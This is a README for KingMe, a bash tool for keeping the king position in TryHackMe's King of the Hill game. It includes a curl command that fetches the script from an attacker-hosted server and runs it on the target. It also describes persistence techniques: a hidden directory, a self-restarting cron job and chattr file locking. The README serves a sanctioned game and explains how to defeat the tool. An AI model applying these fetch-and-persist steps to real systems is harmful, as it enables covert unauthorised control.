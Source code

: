 # KingMe
Bash script that helps you maintain your rightful place as king on any Linux box while playing
King of the Hill on TryHackMe.com

## DISCLAIMER
As far as I know, it is not against the rules of THM KotH to use a script like this.
However, I am not responsible if you get banned because you used this script.
Use at your own risk.

## How to use it
Firstly, you must be root on the KotH VM in order for this script to work. 
On your attacker machine in the same directory as KingMe, start an http server to host all the files on port 8080.
This python one-liner works pretty well for that:
`python -m http.server 8080`
Next, on the KotH VM, use curl to get the kingme.sh script like so:
`curl -o kingme.sh <attacker IP>:8080/kingme.sh`
Then, make kingme.sh executable:
`chmod u+x kingme.sh`
Finally, run kingme.sh and take your rightful place as king!

## How it works
KingMe sets up a secret working directory, and then downloads several busybox bins to that
working directory. This will allow the script to run properly even if at some point the bins
on the KotH VM are moved or messed with. The script then sets up a cron job to restart itself in 
case the user's shell is terminated or the script stops running for some reason. Finally, 
the magic happens. Every second KingMe checks /root/king.txt for your username. If it's not 
there, it puts your username in king.txt. It also locks the file with chattr making it more
difficult to edit by other players. This should maintain a player as king indefinitely, unless
another player figures out what's going on and stops it.

## How to defeat KingMe
Remove the cron job that auto starts the script, and delete the working directory that was created.
You can also just use the mount trick to make king.txt read-only.

## Future Plans
- Add counter measures for other king.txt tricks (like the mount trick)
- The little script the cron job calls is sloppy and will start the whole script over
even the downloading the bins and such. Gotta clean that up.
- Re-write this REAME. It's also sloppy. But hey! It's late! Give me a break! haha

## Version Notes
v0.1 - Initial release written after some shower thoughts late at night
